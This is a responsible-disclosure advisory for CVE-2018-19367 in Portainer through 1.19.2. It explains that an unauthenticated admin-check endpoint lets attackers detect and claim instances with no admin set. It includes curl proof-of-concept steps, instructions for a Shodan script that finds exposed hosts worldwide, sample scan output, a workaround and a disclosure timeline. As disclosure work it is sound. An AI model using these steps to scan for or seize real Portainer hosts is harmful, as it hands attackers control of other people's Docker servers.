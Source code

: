 Responsible Disclosure

# Portainer - Check if admin already created by a public API endpoint

## CVE

[CVE-2018-19367](https://nvd.nist.gov/vuln/detail/CVE-2018-19367)

## PRODUCT DESCRIPTION

[Portainer](https://portainer.io) is an open-source lightweight management UI which allows you to easily manage your Docker hosts or Swarm clusters.

## BACKGROUND

- Portainer until 1.19.2

## VULNERABILITY DETAILS

Portainer provides an API endpoint (/api/users/admin/check) to verify that the admin user is already created. This API endpoint will return `404` if admin was not created and `204` if it was already created. This "feature" allows anyone to receive unauthorized access on the host when the portainer is configured incorrectly.

## PROOF OF CONCEPT

Manual steps to reproduce the vulnerability:

1. `docker run --rm -it -p 9000:9000 -v /var/run/docker.sock:/var/run/docker.sock portainer/portainer`
2. `curl -X GET -s -o /dev/null -w "%{http_code}" http://127.0.0.1:9000/api/users/admin/check`
3. If curl return `404`, open web-browser and create a admin password. `xdg-open http://127.0.0.1:9000`

Applying this around the world with shodan:

```bash
git clone git@github.com:lichti/shodan-portainer.git
virtualenv --python python3 .venv
source .venv/bin/activate
pip install -r requirements.txt
export SHODAN_API_KEY=xxxxxxxxxxxxxxxxxxxxxxx
python portainer.py
```

If you has a paid plan, you can use a filters:

```bash
export SHODAN_FILTER = 'country:"BR"'
python portainer.py
```

Output example:

```txt
Country: US | ISP: Digital Ocean | http://142.x.y.158:9001/
Country: CA | ISP: Atlantic.net  | http://45.x.y.165:9000/
Error: skipping 206.x.y.63
```

## WORKAROUND

Forcing the admin password by extra parameter on portainer CLI - [configuration.html#admin-password](https://portainer.readthedocs.io/en/stable/configuration.html#admin-password). On source code [portainer.go#L13-L14](https://github.com/portainer/portainer/blob/develop/api/portainer.go#L13-L14).

## VULNERABILITY DISCLOSURE TIMELINE

**2018-11-19:** Vendor was contacted [#2475](https://github.com/portainer/portainer/issues/2475)

**2018-11-19:** Vendor response and confirm the vulnerability [2475#issuecomment-440104455](https://github.com/portainer/portainer/issues/2475#issuecomment-440104455)

## AUTHOR & REVISION

**Author:** Gustavo Lichti <gustavo.lichti@gmail.com>

**Revision:** 
